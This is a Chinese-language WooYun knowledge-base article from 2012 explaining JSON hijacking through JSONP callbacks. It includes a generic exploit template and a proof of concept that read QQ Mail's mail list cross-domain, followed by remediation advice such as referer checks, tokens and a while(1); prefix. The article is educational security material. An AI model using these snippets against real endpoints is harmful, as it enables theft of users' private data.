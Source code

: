 # Json hijacking/Json 劫持漏洞

2012/12/28 17:45 | [xsser](http://drops.wooyun.org/author/xsser "由 xsser 发布")![](img/img1_u56_png.jpg)   | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章")  | 占个座先  | 捐赠作者

**0x00 相关背景介绍**

JSON(JavaScript Object Notation) 是一种轻量级的数据交换格式。易于人阅读和编写。同时也易于机器解析和生成。它基于 JavaScript Programming Language, Standard ECMA-262 3rd Edition - December 1999 的一个子集。 JSON 采用完全独立于语言的文本格式，但是也使用了类似于 C 语言家族的习惯（包括 C, C++, C#, Java, JavaScript, Perl, Python 等）。这些特性使 JSON 成为理想的数据交换语言。

这种纯文本的数据交互方式由于可以天然的在浏览器中使用，所以随着 ajax 和 web 业务的发展得到了广大的发展，各种大型网站都开始使用，包括 Yahoo，Google，Tencent，Baidu 等等。

但是如果这种交互的方式用来传递敏感的数据，并且传输的时候没有做太多安全性控制的话将导致安全漏洞，根据敏感信息的不同导致会导致应用遭受不同级别的攻击。

**0x01 成因**

JSON 属于 javascript 的一种实际应用，作为数据传输的一种有效方式，在使用的时候必须考虑到 javascript 在浏览器里的跨域安全策略影响，一般来说，譬如要传输如下的数据

```
$data=array("username"=>"wooyun",  
   "password"=>"wooyun"  
); 
```

JSON 实际应用的时候会有两种传输数据的方式：

xmlhttp 获取数据方式：

```
{"username":"wooyun","password":"wooyun"} 
```

当在前端获取数据的时候，由于数据获取方和数据提供方属于同一个域譬如 www.wooyun.org 下面，属于同一个可信的安全区域。所以可以使用 xmlhttp 的方式来获取数据，然后再用 xmlhttp 获取到的数据传入自己的 js 逻辑譬如 eval（也可以使用其他方式），这种方式下数据可以保证只在可信的域下传输，不会（目前的浏览器的环境下是这样）导致数据向不可信的第三方泄露。

script 获取数据方式：

```
userinfo={"username":"wooyun","password":"wooyun"} 
```

如果传输的数据在两个不同的域，譬如对于大的互联网公司，代表了 A 应用的 A 域名想获取代表 B 应用的 B 域名的数据时，由于在 javascript 里无法跨域获取数据，所以一般采取 script 标签的方式获取数据，传入一些 callback 来获取最终的数据。譬如获取上面数据的时候可以使用

```
<script src="http://www.wooyun.org/userdata.php?callback=userinfo"></script> 
```

由于数据在两个完全不同的域里传输，如果缺乏有效地控制就会导致数据被泄露给第三方程序。

**0x02 攻击方式及危害**

通过分析应用里的数据交互，我们经常可以发现敏感信息泄露的情况发生。通常的方式包括，抓取应用的交互，查看里面敏感的数据，如果在传输的时候没有安全控制，就可以发现此类漏洞了。

主要的危害是对于一些数据敏感的应用会造成较严重的攻击，对于数据不敏感甚至是对第三方公开的应用来说，这类问题基本不算是安全问题，通过在第三方域使用 javascript hijacking 的方式我们就可以窃取到敏感数据了。一般的 exploit 代码形式如下：

```
<script>  
function wooyun_callback(a){  
alert(a);  
}  
</script>  
<script src="http://www.wooyun.org/userdata.php?callback=wooyun_callback"></script> 
```

**0x03 实际案例**

[WooYun: QQMail 邮件泄露漏洞](http://www.wooyun.org/bugs/wooyun-2010-046)

通过构造 URL 让用户访问，可以获得 QQ Mail 的邮件列表。该漏洞由于需要在 web QQ 里共享 QQ Mail 里的邮件信息，所以 QQ Mail 开放了一个 json 接口以提供第三方的域名来获得 QQ Mail 的信息，但是由于该接口缺乏足够的认证，所以导致任何第三方域里都可以用 script 的方式来获取该邮件列表。

```
<script>  
var Qmail={};  
</script>  
<script src="http://mail.qq.com/cgi-bin/login?fun=passport&target=MLIST&t=login.js&pagesize=10&resp_charset=gb2312&1=3"></script>  
<script>  
alert(Qmail.newMailsList.nextUrl);  
alert(document.scripts[1].src=Qmail.newMailsList.nextUrl);  
alert(Qmail.newMailsList.summary);  
</script> 
```

**0x04 修复方案**

尽量避免跨域的数据传输，对于同域的数据传输使用 xmlhttp 的方式作为数据获取的方式，依赖于 javascript 在浏览器域里的安全性保护数据。如果是跨域的数据传输，必须要对敏感的数据获取做权限认证，具体的方式可以包括：

```
1 referer 的来源限制，利用前端 referer 的不可伪造性来保障请求数据的应用来源于可信的地方，此种方式力度较稀，完全依赖于 referer，某些情况下（如存在 xss）可能导致被绕过。
2 token 的加入，严格来说，这种利用 javascript hijacking 的方式获取数据是 CSRF 的一种，不过较之传统的 CSRF 不能获取数据只能提交而言，这种方式利用 javascript 可以获取一些敏感信息而已。如果我们能让攻击者对接口未知，就可以实现 json
 hijacking 的防御了。利用 token 对调用者的身份进行认证，这种方式对于调用者的身份会要求力度较细，但是一旦出现 xss 也可能导致前端 Token 的泄露，从而导致保护失效。
3
对于同域的 json 使用情况下，可以在数据的输出头部加入 while(1);的方式避免数据被 script 标签的方式引用，这可以防止一些比较有特性的浏览器里导致的数据泄漏。 
```

**0x05 相关其他安全问题**

1 json 正确的 http 头输出

**0x06 相关资源**

http://www.json.org/json-zh.html

**Tags:** [json](http://drops.wooyun.org/tag/json), [json-hijacking](http://drops.wooyun.org/tag/json-hijacking), [前端安全](http://drops.wooyun.org/tag/%e5%89%8d%e7%ab%af%e5%ae%89%e5%85%a8)

版权声明：未经授权禁止转载 [xsser](http://drops.wooyun.org/author/xsser "由 xsser 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [URL 重定向/跳转漏洞](http://drops.wooyun.org/papers/58)
*   [PHP 后门新玩法：一款猥琐的 PHP 后门分析](http://drops.wooyun.org/papers/1215)
*   [一个可大规模悄无声息窃取淘宝/支付宝账号与密码的漏洞 -（埋雷式攻击附带视频演示）](http://drops.wooyun.org/papers/1426)
*   [一次 SWF XSS 挖掘和利用](http://drops.wooyun.org/papers/44)
*   [Perl 数据类型安全研究【翻译】](http://drops.wooyun.org/papers/4505)
*   [linux 渗透测试技巧 2 则](http://drops.wooyun.org/papers/1015)